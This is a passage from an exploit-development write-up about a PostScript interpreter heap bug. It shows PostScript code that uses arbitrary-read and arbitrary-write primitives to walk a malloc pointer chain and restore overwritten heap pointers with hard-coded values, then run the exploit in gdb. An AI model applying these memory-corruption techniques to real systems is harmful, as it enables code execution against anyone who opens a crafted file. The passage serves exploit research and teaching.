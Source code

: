 A simple for loop in Postscript similar to the one used to walk the malloc chunk header linked list works:

```postscript
/ptr3 next -56 ptradd def
/buf2 8 string def

8 {

    ptr3 buf2 arbrd
    /ptr3 buf2 def

} repeat
```

<img src="./Images/p_ptr3_buf2.jpg" alt="showing the value of ptr3 and buf2 after walking the pointer chain" style="display:block; margin:auto;">

### Writing to the Address

Great, now I have a Postscript variable `ptr3` and `buf2` that holds the address of where to write to. Next is figuring out what to write. Easy, for now I can just copy what the hexdump showed was there before the overflow, and then do this for all 5 pointers plus the 3 clumps of bytes in between using the `ptradd` and `arbwr` functions. There was probably a better way to do this but I just wanted to get it working:

```postscript
ptr3 <308faf5755550000> arbwr

/ptr4 ptr3 -8 ptradd def
ptr4 <02504c0000000000> arbwr

/ptr5 ptr3 16 ptradd def
ptr5 <784b4c0000000000> arbwr

/ptr6 ptr3 24 ptradd def
ptr6 <00ba025755550000> arbwr

/ptr7 ptr3 32 ptradd def
ptr7 <71b6e65655550000> arbwr

/ptr8 ptr3 72 ptradd def
ptr8 <01000000504b4c00> arbwr

/ptr9 ptr3 80 ptradd def
ptr9 <6064035755550000> arbwr
```

Since `ptr3` held the address `0x7ffff3688008`, I just used `ptradd` to add the correct offset to get the other memory locations to write to. After this, I ran the exploit to completion in gdb:
